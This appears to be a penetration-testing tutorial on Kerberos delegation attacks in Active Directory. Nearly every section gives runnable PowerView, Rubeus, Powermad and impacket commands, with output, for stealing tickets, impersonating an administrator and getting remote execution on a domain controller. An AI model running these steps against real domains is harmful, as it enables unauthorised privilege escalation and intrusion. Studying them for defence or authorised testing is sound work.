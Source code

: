 ## Delegation Attacks

This page highlights three primary attacks against delegation: Unconstrained, Constrained, and Resource-Based Constrained.

### Unconstrained Delegation

Unconstrained delegation lets a service or user act on behalf of another user to access a service. This was introduced to satisfy the need for multiple backend components to communicate. Consider a web application and database. The user interacts with the web application, which needs to interact with the database server. There needed to be a way to allow the web server to "act on behalf of" the user. Thus, delegation was born... With big issues!

When unconstrained delegation is enabled, TGS requests will include the requesting users TGT inside it. The receiving server extracts the TGT, passes it on to the DB to authenticate. However, it also caches the TGT in its kerberos cache. Therefore, if you can compromise an account with unconstrained delegation and force authentication from a target machine, you can extract the TGT from the cache and impersonate those users.

We can use Powerview to find computers with unconstrained delegation available:

 https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 

```powershell
Get-NetComputer -Unconstrained | select samaccountname
```

You need to compromise the target with unconstrained delegation enabled. Then, using a tool such as Rubeus, start listening for new TGT requests.

```powershell
\Rubeus.exe monitor /targetuser:Neo /interval:60
```

To trigger an authentication request from a domain controller, we can use SpoolSample.exe (In amongst many other techniques - a simple Google will show multiple). This uses the MS-RPRN Print System Remote protocol which handles servers between print clients and servers. It uses the `RpcRemoteFindFirstPrinterChangeNotificationEx()` to send a state change from machine A to machine B. This triggers an authentication request. Using the access to a machine with unconstrained delegation enabvled, this can be caught whilst monitoring for TGT traffic and used to authenticate as the targeted user.

### Constrained Delegation

With the release of constrained delegation, TGT's are no longer cached on the "middleman" machine. Furthermore, the services which can be accessed on behalf of the requesting user are limited. Constrained delegation can be applied to users and computers.

We can find users or computers with it enabled using Powerview and examining the `useraccountcontrol` field. We want to see `TRUSTED_TO_AUTH_FOR_DELEGATION`. The `msds-allowedtodelegateto` field shows which services the computer or user is allowed to delegate to. 

```powershell
Get-NetUser -TrustedToAuth
Get-NetComputer dc04 | select name, msds-allowedtodelegateto, useraccountcontrol
```

If we compromise a server with constrained delegation, we can use it to get code execution on the server instance that it's trusted to delegate to.

We need the password hash of the service account. If we have the cleartext password, we can use rubeus to generate the NTLM hash.

```powershell
PS C:\tools> .\Rubeus.exe hash /password:matrix

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Calculate Password Hash(es)
[*] Input password             : matrix
[*]       rc4_hmac             : 4D7A70E2EB3B9F2892D26CDF805C425E
```

Then we can generate a TGT for the service using rubeus.

```powershell
PS C:\tools> .\Rubeus.exe asktgt /user:svc-account /domain:matrix.local /rc4:4D7A70E2EB3B9F2892D26CDF805C425E

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 2892D26CDF84D7A70E2EB3B9F05C425E
[*] Building AS-REQ (w/ preauth) for: 'matrix.local\svc-account'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE+jCCBPagAwIBBaEDAgEWooIECzCCBAdhggQDMIID/6ADAgEFoRAbDlBST0QuQ09SUDEuQ09NoiMw...

  ServiceName           :  krbtgt/matrix.local
  ServiceRealm          :  matrix.local
  UserName              :  svc-account
  UserRealm             :  matrix.local
  StartTime             :  9/5/2021 2:29:22 PM
  EndTime               :  9/6/2021 12:29:22 AM
  RenewTill             :  9/12/2021 2:29:22 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  1FdfaHpiftyOdWn6dHimBQ==
 ```
 
With our TGT, we can now invoke the S4U extensions.

```powershell
PS C:\tools> .\Rubeus.exe s4u /ticket:doIE+jCCBPagAwIBBaEDAgEWooIECzCCBAdhggQDMIID/6ADAgEFoRAbDlBST0QuQ09SUDEuQ09NoiMwIa.../impersonateuser:administrator /msdsspn:MSSQLSvc/sql.matrix.local:1433 /ptt
```

If the output is successful, then we have successfully obtained a useable service ticket for the MSSQL service on sql.matrix.local.

Because this is injected into our cached ticket memory, we can run the MSSQL attacks to confirm it's worked.

```powershell
PS C:\tools> .\SQL.exe
Auth success!
Logged in as: sql.matrix.local\Administrator
Mapped to user: dbo
User is a member of public role
User is a member of sysadmin role
```

In summary, we can access any server that has the msDS-AllowedToDelegateTo property set. If TRUSTED_TO_AUTH_FOR_DELEGATION is set, we can also do this without user interaction.



#### Just this service, sir?

The s4u protocol doesn't validate the service provided in the ticket is real, meaning we can use add the `/altservice:<service>` to the request to request alternative services to the one listed in the `msds-allowedtodelegateto` field. This only works if the port number is NOT specified in the SPN.


```powershell
PS C:\Tools> .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator msdsspn:MSSQLSvc/sql.matrix.local /altservice:CIFS /ptt
```

With CIFS access, we can target the service system and use psexec to get remote access to the machine, read sensitive files, write data, etc.


### Resource-Based Constrained Delegation

Authenticated users can (by default) add up to 10 computer accounts to a domain. These domains automatically have SPNs set. By doing this, we can abuse any computer that we have the GenericWrite property enabled on to set the `msDS-AllowedToActOnBehalfOfOtherIdentity` property to the SID of the computer we create. We can then use the newly created computer account to execute the s4u2self and s4u2proxy extensions and obtain a valid TGS for the computer we have GenericWrite over.

We can query how many computers we can add using Powerview.

```powershell
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
```

With Powermad, we can add a new computer account.
```powershell
New-MachineAccount -MachineAccount myComputer -Password $(Convertto-securestring 'h4x' -AsPlaintext -force)                                                 
[+] Machine account myComputer added
Get-DomainComputer -Identity myComputer  # Check it was created
```

We then convert the SID of the new computer account to binary format.

```powershell
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid 
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDbytes,0)
```

We'll then write to our target computer that we have GenericWrite over.

```powershell
Get-DomainComputer -Identity dc04 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

We'll use Rubeus to obtain the NTLM hash of the computer account we created.

```powershell
.\Rubeus.exe hash /password:h4x 
AA6EAFB522589934A6E5CE92C6438221
```

After that, request an s4u which will also run the `asktgt` module when provided with a username and hash.

```powershell
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/dc04.matrix.local /ptt 
```

Finally, check your tickets with `klist` and try to access the C$ drive of the target. It should be successful.

```powershell
dir \\matrix.local\c$
```

#### Attacking from Kali

```bash
# Add the computer fakecomputer$
impacket-addcomputer -computer-name 'fakecomputer$' -computer-pass 'Summer2018!' -dc-ip 10.10.10.10 'MATRIX.local/Neo:Passw0rd'

# Perform the rbcd
python3 rbcd.py -f FAKECOMPUTER -t DC04 -dc-ip 10.10.10.10 MATRIX.local\\Neo:Neo:Passw0rd  

# Get a service ticket for the file system of the target machine
impacket-getST -spn cifs/DC04.matrix.local -impersonate administrator -dc-ip 10.10.10.10 matrix.local/FAKECOMPUTER$:'Summer2018!'

# Export the output .ccache file
export KRB5CCNAME=`pwd`/administrator.ccache

# If not already installed (Enter matrix.local when asked for realm)
sudo apt install krb5-user 
# edit /etc/hosts to have all valid IPs resolving to hosts

# Login using the kerberos ticket
proxychains impacket-wmiexec administrator@DC04.matrix.local -k -no-pass
```